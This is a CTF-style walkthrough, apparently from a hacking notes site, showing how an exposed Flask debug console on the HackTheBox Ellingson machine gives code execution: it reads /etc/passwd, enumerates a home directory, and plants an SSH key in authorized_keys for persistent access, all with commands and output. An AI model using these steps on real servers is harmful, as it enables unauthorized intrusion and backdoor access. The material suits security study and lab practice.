



# Python Flask (Debug Console)
Flask helps you create lightweight web apps in Python.
Flask provides a a debug console.
The debug console shouldn't be reachable by normal users, but if it's enabled on the live web app then you might be to reach hit.
Examples• hackthebox Ellingson
## Accessing the Debug Console
### Cause an error
If you try to visit a page that doesn't exist and the Flask debug console is enabled, then the Flask web app will return with a debug page.
http://10.10.10.139/articles/4From here you can mess with the debug console.
## Exploit the Debug Console
### Utilise the Python Console to Execute Commands
If you read the text at the bottom of the page, you'll see that we can open a python console by mousing-over the frame and clicking the console icon.
For code execution mouse-over the frame you want to debug and click on the console icon on the right side.
I chose the
slug = articles[index-1] frame.
Click the console icon on the far right.
You should see a
[console ready] status.
]
We're now in a python console.
Import
os so that we can run system commands:
To read the output of commands we need to direct the output to a file and read it using
PathImport
Path:
>>> from pathlib import Path
At this point, we can run system commands by specifying a command in a variable and run it using
os.system().
You can read the output of the command using
Path("<path to file>").read_text()>>> cmd = "cat /etc/passwd > /tmp/readme.txt"
>>> os.system(cmd)
0
>>> Path("/tmp/readme.txt").read_text()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin...
### Get a shell
You might be able to get a shell on the system by using the Python console shown above.
#### Example from hackthebox EllingsonIn this example I get a shell on the system by using adding my attacking machine's SSH key into the
authorized_keys file of the user under which Flask is running.
Check which user we are.
>>> cmd = "id > /tmp/readme.txt"
>>> os.system(cmd)
0
>>> Path("/tmp/readme.txt").read_text()
'uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)\n'
We're running as
hal. Read his
/home>>> cmd = "ls -alh /home/hal > /tmp/readme.txt"
>>> os.system(cmd)
512
>>> Path("/tmp/readme.txt").read_text()
'/home/hal:\ntotal 36K\ndrwxrwx--- 5 hal hal 4.0K May 7 13:12 .\ndrwxr-xr-x 6 root root 4.0K Mar 9 19:21 ..\n-rw-r--r-- 1 hal hal 220 Mar 9 19:20 .bash_logout\n-rw-r--r-- 1 hal hal 3.7K Mar 9 19:20 .bashrc\ndrwx------ 2 hal hal 4.0K Mar 10 17:33 .cache\ndrwx------ 3 hal hal 4.0K Mar 10 17:33 .gnupg\n-rw-r--r-- 1 hal hal 807 Mar 9 19:20 .profile\ndrwx------ 2 hal hal 4.0K Mar 9 19:30 .ssh\n-rw------- 1 hal hal 865 Mar 9 19:30 .viminfo\n'
hal has a
.ssh directory. We can get ssh access as
hal by adding our attacking machine's public key to his
authorized_keys file.
Read your attacking machine's public key.
root@gotham:~/ctf/ellingson# cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCqO4k...
Back on the python interpreter,
echo your public key into
hal's
authorized_keys file.
>>> cmd = 'echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCqO4k..." >> /home/hal/.ssh/authorized_keys'
>>> os.system(cmd)
0
>>>
It worked!
ssh in as
hal by providing your private key as authentication
root@gotham:~/ctf/ellingson# ssh hal@10.10.10.139 -i ~/.ssh/id_rsa
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)
...
hal@ellingson:~$
And we're
hal on the system.